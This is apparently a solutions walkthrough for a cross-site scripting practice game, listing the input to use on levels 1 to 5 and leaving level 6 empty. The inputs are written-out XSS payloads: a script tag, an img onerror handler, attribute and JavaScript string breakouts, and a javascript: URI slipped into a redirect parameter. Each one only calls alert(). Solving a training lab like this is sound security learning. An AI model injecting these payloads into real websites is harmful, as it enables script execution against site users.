 # https://xss-game.appspot.com/

## Level 1
Insert
`<script>alert();</script>`
inside the input text box.

## Level 2
Insert
`<img src="asdgf.png" onerror="javascript:alert();" />`
inside the input text box.

## Level 3
Insert
`'onerror="alert();"`
into the URL bar after the #.

## Level 4
Insert
`1}}'); alert();('{{`
inside the input text box.

## Level 5
Click "Sign up", then insert
`javascript:alert();`
in the URL bar after
`next=`
in place of
`confirm`

## Level 6


